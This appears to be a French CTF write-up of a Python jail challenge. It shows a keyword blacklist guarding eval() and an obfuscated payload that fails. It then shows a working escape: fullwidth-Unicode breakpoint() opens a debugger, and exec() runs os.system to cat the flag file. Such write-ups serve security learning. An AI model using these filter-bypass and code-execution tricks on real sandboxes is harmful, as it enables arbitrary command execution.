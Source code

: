
--- 

# Description du challenge : 

## Pyjail revenge

### 150

Conçu par Oblivios

Fini les payloads classiques, montre moi vraiment ce que tu peux faire pour contourner ça !

Le flag est situé dans `flag.txt`

`Connexion: nc intro.ctfrei.fr 4452`

--- 

> On a un fichier Python 

```python
#!/usr/local/bin/python3

  

blacklist = ["open", "os", "+", "{", "}", "help", "system", "subprocess", \

"lower", "import", "eval", "exec", "sys", "breakpoint", "getattr", \

"builtins","popen", "read", "input", "class", "chr", "ord", "flag", \

"dict", "globals", "update", "locals"]

  

def check_code(code):

if any([x in code for x in blacklist]):

return False

return True

  

def main():

# Je ban autant de mots pour vous

# forcer à trouver LE trick à utiliser

code = input(">>> ")

if check_code(code):

eval(code)

else:

print("Eh t'as utilisé un truc interdit là !")

  

if __name__ == "__main__":

main()
```

> Apres avoir essaye plein de commande pour contourner les mots interdits : 

```
Exemple : (lambda f: (f()._module.setitem(''.join([b'o', b'p', b'e', b'n']).decode(), None), f()._module[''.join([b'o', b'p', b'e', b'n']).decode()](''.join([b'f', b'l', b'a', b'g', b'.', b't', b'x', b't']).decode()).iter().next()) if len(f) > 0 else None)([x for x in (type([]).base.mro[1:]) if x._name_ == "catch_warnings"])
```

> J'étais dans une impasse. J'ai cherché sur internet des W-U de challenges Pyjail et je suis tombé sur ca : [https://jbnrz.com.cn/index.php/2024/08/15/pyjail/](https://jbnrz.com.cn/index.php/2024/08/15/pyjail/#header-id-39)

> J'ai compris qu'on pouvait bypass avec des commandes donc j'ai essayé : breakpoint() sauf que c'est bannit

> J'ai aussi compris que je pouvais utiliser un encodage différent pour bypass : 

> ｂｒｅａｋｐｏｉｎｔ()

```shell
╭─romso@romso94 ~/Téléchargements
╰─➤  nc intro.ctfrei.fr 4452                                                      130 ↵
>>> ｂｒｅａｋｐｏｉｎｔ()
--Return--
> <string>(1)<module>()->None
(Pdb) help

Documented commands (type help <topic>):
========================================
EOF    c          d        h         list      q        rv       undisplay
a      cl         debug    help      ll        quit     s        unt
alias  clear      disable  ignore    longlist  r        source   until
args   commands   display  interact  n         restart  step     up
b      condition  down     j         next      return   tbreak   w
break  cont       enable   jump      p         retval   u        whatis
bt     continue   exit     l         pp        run      unalias  where

Miscellaneous help topics:
==========================
exec  pdb

(Pdb)
```

> Je vois que j'ai accès à **exec** alors je me génère un payload : 

```python
exec("__import__('os').system('cat flag.txt')")
```

# Résultat : 

```shell
╭─romso@romso94 ~/Téléchargements
╰─➤  nc intro.ctfrei.fr 4452                                                      130 ↵
>>> ｂｒｅａｋｐｏｉｎｔ()
--Return--
> <string>(1)<module>()->None
(Pdb) exec("__import__('os').system('cat flag.txt')")
CTFREI{d4mn_u_g0t_m3_pff}(Pdb)
```

> Flag  : CTFREI{d4mn_u_g0t_m3_pff}
